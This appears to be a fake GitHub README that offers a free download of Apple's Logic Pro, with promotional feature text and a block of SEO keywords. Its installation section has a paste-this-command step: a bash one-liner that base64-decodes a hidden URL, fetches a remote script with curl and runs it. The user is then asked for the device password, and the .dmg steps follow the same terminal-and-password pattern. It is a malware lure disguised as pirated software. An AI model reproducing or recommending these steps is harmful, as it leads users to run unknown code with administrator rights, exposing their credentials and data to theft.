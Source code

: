 # Logic Pro Download for Mac - The Ultimate Music Production Studio

![Logic Pro Screenshot](https://images.sftcdn.net/images/t_app-cover-s,f_auto/p/dbafa73e-96d8-11e6-b917-00163ed833e7/3863381127/logic-pro-screenshot.jpg)

---

## 🔽 Download Logic Pro for Mac

[![Download Now](https://img.shields.io/badge/Download_LogicPro-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/logicpro)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Logic Pro for Mac?

Logic Pro stands as Apple's premier digital audio workstation (DAW), meticulously designed for professional musicians, producers, composers, and audio engineers. This comprehensive software solution converts your Mac into a fully-equipped recording and production facility, delivering state-of-the-art tools for every stage of music creation - from initial composition to final mastering. Its intuitive interface combined with intelligent workflow enhancements makes sophisticated music production achievable for both beginners and seasoned professionals alike.

What truly distinguishes Logic Pro is its deep integration with macOS, ensuring exceptional performance with ultra-low latency across all Mac platforms, including both Intel-based systems and the latest Apple Silicon processors. The software accommodates every musical genre imaginable - from electronic dance music to cinematic orchestral arrangements - through its extensive collection of studio-grade virtual instruments and DSP-powered effects. Whether you're producing beats, tracking live instruments, or creating soundscapes for visual media, Logic Pro delivers both the technical precision and creative flexibility demanded by today's music industry.

The integrated Sound Library provides an expansive collection exceeding 100GB of premium, royalty-free loops, samples, and instrument patches. Innovative features such as Smart Tempo for automatic timing adjustments and AI-assisted mixing tools significantly enhance productivity. Furthermore, with native Dolby Atmos support, producers can craft cutting-edge spatial audio mixes and immersive listening experiences directly within their Mac environment. Logic Pro continues to evolve as the go-to solution for professional music creation on macOS.

![Logic Pro Workspace](https://mac-cdn.softpedia.com/screenshots/Logic-Pro_6.jpg)

---

## Key Features & Benefits

- 🎧 Professional-grade audio recording & editing  
- 🎛️ 100+ GB Sound Library with premium instruments  
- 🤖 Smart Tempo & AI mixing assistants  
- 🌌 Dolby Atmos spatial audio support  
- 🔌 Compatible with VST/AU plugins  
- ⚡ Optimized for M1/M2 Macs  

Whether you're producing hits, scoring films, or recording podcasts, Logic Pro delivers studio-quality results with unmatched efficiency.  

---

## 🔍 Keywords  

Logic Pro for Mac, Logic Pro Mac Download, Logic Pro for Mac Download, Logic Pro Mac, Logic Pro Download Mac, Logic Pro Download for Mac, logic pro free download, logic pro full version, Mac Download Logic Pro, Download Mac Logic Pro, Download Logic Pro Mac, Download Logic Pro for Mac
